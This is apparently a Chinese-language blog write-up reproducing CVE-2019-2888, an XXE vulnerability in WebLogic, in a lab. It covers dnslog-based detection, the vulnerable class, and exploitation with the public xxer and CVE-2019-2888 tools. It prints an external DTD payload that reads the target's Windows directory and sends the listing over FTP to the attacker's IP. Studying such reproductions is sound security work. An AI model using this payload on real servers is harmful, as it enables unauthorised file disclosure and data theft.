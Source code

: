 ```yaml
---
title: (CVE-2019-2888)weblogic-XXE漏洞复现
tags: 
  - XXE
  - weblogic
  -	漏洞复现
  -	CVE-2019-2888
categories: 漏洞复现
keywords: 'XXE,weblogic,漏洞复现,CVE-2019-2888'
description: (CVE-2019-2888)weblogic-XXE漏洞复现
cover: /images/17/3.png
date: 2020-10-02 10:45:41
type: categories
---
```




本篇文章将带来weblogic的xxe漏洞CVE-2019-2888的漏洞利用方式	
环境搭建请参考这一篇文章

https://j-jasson2.github.io/2020/09/30/Windows搭建weblogic环境/

# 漏洞检测
## 黑盒审计
1、端口+服务+版本
![upload successful](/images/17/1.png) 
![upload successful](/images/17/2.png) 
![upload successful](/images/17/3.png) 
![upload successful](/images/17/4.png) 

2、首先使用在线工具获取一个dnslog地址
![upload successful](/images/17/5.png) 

3、使用CVE-2019-2888调用外部的我们获取的dnslog地址
![upload successful](/images/17/6.png) 

4、回去查看日志，已经成功获取了日志，说明这里可能存在CVE-2019-2888漏洞
![upload successful](/images/17/7.png) 

## 白盒审计
在源码中的
\weblogic\servlet\ejb2jsp\dd\EJBTaglibDescriptor.class这个类继承自java\io\Externalizable
如果没有对该类进行**disableXXEOnDocumentBuilderFactory**处理，即存在CVE-2019-2888 漏洞。
![upload successful](/images/17/8.png) 

# 漏洞复现
工具：	
xxer：	
https://github.com/TheTwitchy/xxer	
CVE-2019-2888	
https://github.com/jas502n/CVE-2019-2888

1、首先攻击机下载好工具，打开xxer，开始监听数据
```
python xxer.py -p 8989 -H 192.168.159.129
```
![upload successful](/images/17/9.png)

2、打开xxer文件目录下的ext.dtd，输入以下内容，需要修改的地方为读取靶机的内容的路径以及攻击机的ip。
```
<!ENTITY % bbb SYSTEM "file:///Windows/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'ftp://fakeuser:%bbb;@192.168.159.129:2121/b'>">
```
![upload successful](/images/17/10.png)

3、新打开一个终端，路径为CVE-2019-2888的文件夹中。运行命令，会让你输入攻击机的IP与端口，我这里分别是192.168.159.129和8989
![upload successful](/images/17/11.png)  

4、回到之前xxer的监听界面，获取了靶机的/Windows路径下的所有文件信息
![upload successful](/images/17/12.png) 

